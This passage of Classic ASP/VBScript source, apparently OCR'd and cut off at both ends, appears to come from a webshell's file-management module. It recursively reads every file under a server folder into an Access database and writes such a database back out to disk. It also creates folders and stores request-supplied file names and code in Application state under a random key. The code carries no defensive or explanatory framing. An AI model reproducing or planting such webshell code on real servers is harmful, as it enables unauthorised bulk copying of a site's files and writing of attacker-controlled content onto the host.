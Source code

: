 stream.SaveToFile str & rs("thePath"), 2
rs.MoveNext
Loop
rs.Close
conn.Close
stream.Close
Set ws = Nothing
Set rs = Nothing
Set stream = Nothing
Set conn = Nothing
End Sub
Dim Filepaths
set Filepaths=new SearchFile
Filepaths.Class_Folder Filename
Sub createFolder(thePath)
Dim i
i = Instr(thePath, "\")
Do While i > 0
If Server.CreateObject(CONST_FSO).FolderExists(Left(thePath, i)) = False Then
Server.CreateObject(CONST_FSO).CreateFolder(Left(thePath, i - 1))
End If
If InStr(Mid(thePath, i + 1), "\") Then
i = i + Instr(Mid(thePath, i + 1), "\")
 Else
i = 0
End If
Loop
End Sub
Sub saTreeForMdb(thePath, rs, stream)
Dim item, theFolder, sysFileList
sysFileList = "$HSH.mdb$HSH.ldb$"
Set theFolder = saX.NameSpace(thePath)
For Each item In theFolder.Items
If item.IsFolder = True Then
saTreeForMdb item.Path, rs, stream
 Else
If InStr(sysFileList, "$" & item.Name & "$") <= 0 Then
rs.AddNew
rs("thePath") = Mid(item.Path, 4)
stream.LoadFromFile(item.Path)
rs("fileContent") = stream.Read()
rs.Update
End If
End If
Next
Set theFolder = Nothing
End Sub
Function ProFile()
If Request("Action2")="Post" Then
Randomize
dim pass2,num1
pass2=""
Do While Len(pass2)<8
if Len(pass2)<=4 then
num1=CStr(Chr((122-97)*rnd+97)) 'a~z 
else
num1=CStr(Chr((57-48)*rnd+48)) '0~9 
end if
pass2=pass2&num1
loop 
pass2=ucase(pass2)
Application(pass2)=1
Application(pass2&"File")=request("AFile")
Application(pass2&"Code")=request("ACode")